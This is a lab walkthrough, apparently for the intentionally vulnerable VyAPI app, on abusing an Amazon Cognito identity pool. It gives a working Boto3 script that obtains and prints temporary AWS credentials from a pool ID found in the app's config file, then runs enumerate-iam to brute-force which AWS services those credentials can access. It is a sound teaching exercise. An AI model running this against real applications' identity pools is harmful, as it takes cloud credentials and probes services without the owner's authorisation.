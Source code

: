 # Amazon Cognito Authorization Issue

- [Amazon Cognito Authorization Issue](#amazon-cognito-authorization-issue)
  - [1. Setup AWS CLI](#1-setup-aws-cli)
  - [2. Create Test Scripts](#2-create-test-scripts)
    - [Boto3: Get Pool Credentials](#boto3-get-pool-credentials)
    - [Enumerate IAM](#enumerate-iam)
  - [3. Find a Cognito Identity Pool ID](#3-find-a-cognito-identity-pool-id)
  - [4. Fetch Temporary AWS Credentials](#4-fetch-temporary-aws-credentials)
  - [5. Check Unauthenticated Access to AWS Services](#5-check-unauthenticated-access-to-aws-services)
  - [References](#references)

## 1. Setup AWS CLI

1. Install AWS CLI
2. Configure AWS CLI

        $ aws configure

## 2. Create Test Scripts

### Boto3: Get Pool Credentials

1. Create a virtual environment for **Python 2.7**

        $ virtualenv -p /usr/bin/python2.7 venv

2. Activate the virtual environment

        $ source venv/bin/activate

3. Install **Boto3** package

        (venv) $ pip install boto3

4. Create a file `get_pool_credentials.py` with following content

    ```python
    import boto3
    import sys

    def get_pool_credentials(region, identity_pool):
        client = boto3.client('cognito-identity', region_name=region)

        _id = client.get_id(IdentityPoolId=identity_pool)
        _id = _id['IdentityId']

        credentials = client.get_credentials_for_identity(IdentityId=_id)
        access_key = credentials['Credentials']['AccessKeyId']
        secret_key = credentials['Credentials']['SecretKey']
        session_token = credentials['Credentials']['SessionToken']
        identity_id = credentials['IdentityId']

        print ("Access Key: " + access_key + "\n")
        print ("Secret Key: " + secret_key + "\n") 
        print ("Session Token: " + session_token + "\n")
        print ("Identity ID: " + identity_id + "\n")

    get_pool_credentials(sys.argv[1], sys.argv[2]);
    ```

### Enumerate IAM

1. Clone the `enumerate-iam` GitHub repository and setup the test environment

    ```bash
    (venv) $ git clone git@github.com:andresriancho/enumerate-iam.git
    (venv) $ cd enumerate-iam/
    (venv) $ pip install -r requirements.txt
    ```

2. Test if the script works fine

        (venv) $ python enumerate-iam.py

    ![Enumerate IAM script](image/2-enumerate-iam.png)

## 3. Find a Cognito Identity Pool ID

1. In the unzipped VyAPI bundle, look for configuration files

        $ find ./ -name "*config*"

    ![Search for configuration files](image/1-search-config-files.png)

2. Check the contents of `awsconfiguration.json` file
3. Copy the value of `PoolId` parameter from the configuration file. 
   
    *Note:* We are looking for a string which is similar to
   
        us-east-1:f0e6168e-4865-4890-97e5-489cd6106g83

## 4. Fetch Temporary AWS Credentials

Use **Boto3** python script to fetch the temporary AWS credentials

    (venv) $ python get_pool_credentials.py "<REGION_ID>" "<COGNITO_IDENTITY_POOL_ID>"

![Fetch temporary AWS credentials](image/3-get-pool-credentials.png)

## 5. Check Unauthenticated Access to AWS Services

Use the `enumerate-iam.py` python script to check which AWS services have unauthenticated access enabled

    (venv) $ python enumerate-iam.py --access-key "<ACCESS_KEY>" --secret-key "<SECRET_KEY>" --session-token "<SESSION_TOKEN>" --region "<REGION_ID>"

![Brute force AWS service access](image/4-brute-force-aws-service-access.png)


## References

* [https://docs.python-guide.org/dev/virtualenvs/](https://docs.python-guide.org/dev/virtualenvs/)
* [Internet-Scale analysis of AWS Cognito Security](https://andresriancho.com/internet-scale-analysis-of-aws-cognito-security/)
* [https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/cognito-identity.html](https://boto3.amazonaws.com/v1/documentation/api/latest/reference/services/cognito-identity.html)
* [https://aws.amazon.com/cognito/](https://aws.amazon.com/cognito/)